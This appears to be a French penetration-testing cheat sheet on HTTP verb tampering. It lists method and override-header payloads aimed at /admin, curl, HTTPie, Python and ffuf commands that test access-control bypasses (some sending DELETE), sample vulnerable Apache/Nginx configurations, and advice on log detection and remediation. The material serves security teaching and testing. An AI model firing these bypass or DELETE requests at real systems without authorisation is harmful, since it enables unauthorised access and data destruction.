

## HTTP Verb Tampering

Ce flux illustre la chaîne d'attaque permettant de contourner les contrôles d'accès via la manipulation des verbes HTTP.



## Concepts Clés & Théorie

Le **HTTP Verb Tampering** est une technique consistant à modifier le verbe HTTP (GET, POST, PUT, DELETE, etc.) dans une requête pour contourner les mécanismes de sécurité d'une application web. Cette vulnérabilité survient lorsque les serveurs, les proxies ou les middlewares interprètent les verbes HTTP différemment de l'application backend, créant un désalignement des autorisations ou des bypass de filtres (403, 401).

Les cibles typiques incluent les API REST, les endpoints protégés (ex: `/admin`, `/delete`) et les contrôles d'accès basés sur les méthodes. Cette technique est souvent corrélée aux phases de **Web Enumeration** et nécessite une maîtrise de **Burp Suite** pour l'analyse des **HTTP Methods**.

> [!warning] Attention aux faux positifs
> Un 200 OK ne signifie pas toujours une exécution réussie.

> [!warning] Vérifier la configuration du serveur web
> Examiner les fichiers de configuration comme `.htaccess` ou `web.config`.

> [!warning] L'ordre des headers d'override
> L'ordre des headers d'override peut varier selon le framework backend.

## Payloads & Méthodes Connues

### Verbes HTTP non standards ou rarement filtrés

```http
HEAD /admin HTTP/1.1
OPTIONS /admin HTTP/1.1
TRACE /admin HTTP/1.1
TRACK /admin HTTP/1.1
PUT /admin HTTP/1.1
DELETE /admin HTTP/1.1
```

### Bypass de restriction d'accès (403)

```http
POST /admin HTTP/1.1
X-HTTP-Method-Override: GET
```

### Override headers (proxy Apache/Nginx)

```http
POST /admin HTTP/1.1
X-HTTP-Method: DELETE
```

```http
POST /admin HTTP/1.1
X-Original-Method: DELETE
```

```http
POST /admin HTTP/1.1
X-Method-Override: DELETE
```

### Combinaison de verbes

```http
OPTIONS /admin HTTP/1.1
```

## Outils & Commandes utiles

### cURL

```bash
curl -X DELETE http://target/admin
curl -X POST -H "X-HTTP-Method-Override: DELETE" http://target/admin
```

### HTTPie

```bash
http DELETE http://target/admin
http POST http://target/admin X-HTTP-Method-Override:DELETE
```

### Burp Suite

L'utilisation de **Burp Suite** via le module Repeater permet de modifier manuellement le verbe HTTP, d'ajouter des headers d'override et de tester les différentes combinaisons avec GET, POST, OPTIONS, HEAD, etc.

## Cas Réels & Exemples

| Verbe | Résultat Espéré | Comportement Possible |
| :--- | :--- | :--- |
| `GET` | Page s'affiche | OK |
| `POST` | 403 Forbidden | Refusé |
| `POST` + `X-HTTP-Method-Override: GET` | Contournement possible | Contourne la restriction |
| `DELETE` | Suppression de ressource | Exploitable si non protégé |
| `OPTIONS` | Liste des verbes supportés | Informations précieuses |

## Configuration des serveurs vulnérables (Apache/Nginx/IIS)

La vulnérabilité provient souvent d'une mauvaise application des directives de contrôle d'accès au niveau du serveur web.

### Apache
L'utilisation de la directive `<Limit>` sans inclure toutes les méthodes permet le bypass.
```apache
<Limit GET>
    Require valid-user
</Limit>
# Ici, POST, PUT, DELETE ne sont pas restreints.
```

### Nginx
Une mauvaise configuration de `limit_except` dans un bloc `location` peut laisser des méthodes non protégées.
```nginx
location /admin {
    limit_except GET {
        allow 192.168.1.0/24;
        deny all;
    }
}
```

### IIS
Le fichier `web.config` peut restreindre l'accès par verbe via `verb` dans la section `requestFiltering`. Une configuration incomplète laisse les verbes non listés accessibles.

## Analyse des logs pour détection

L'analyse des logs (ex: `/var/log/apache2/access.log` ou logs IIS) doit se concentrer sur :
- **Anomalies de verbes** : Requêtes `TRACE` ou `OPTIONS` sur des répertoires sensibles.
- **Headers suspects** : Présence de `X-HTTP-Method-Override` ou `X-Original-Method` dans les logs.
- **Incohérences** : Requêtes `POST` ayant retourné un `200 OK` sur des endpoints qui devraient normalement être des `GET` (ou inversement).

## Remédiation et bonnes pratiques de configuration

- **Principe du moindre privilège** : Restreindre explicitement toutes les méthodes HTTP nécessaires et refuser tout le reste par défaut.
- **Désactivation des méthodes inutiles** : Désactiver `TRACE` et `TRACK` globalement pour prévenir les attaques de type XST.
- **Configuration globale** : Appliquer les contrôles d'accès au niveau de l'application (code) plutôt que de se reposer uniquement sur la configuration du serveur web.
- **WAF** : Configurer le WAF pour inspecter et bloquer les headers d'override non autorisés.

## Automatisation avec scripts (Python/ffuf)

### Python (Requests)
```python
import requests

# Test de bypass via header override
url = "http://target/admin"
headers = {"X-HTTP-Method-Override": "GET"}
r = requests.post(url, headers=headers)
if r.status_code == 200:
    print(f"[+] Bypass réussi avec POST/Override : {r.status_code}")
```

### ffuf
Utilisation de `ffuf` pour tester tous les verbes HTTP sur un endpoint donné :
```bash
# Créer un fichier methods.txt avec : GET, POST, PUT, DELETE, HEAD, OPTIONS, TRACE
ffuf -w methods.txt -u http://target/admin -X FUZZ -mc 200,403
```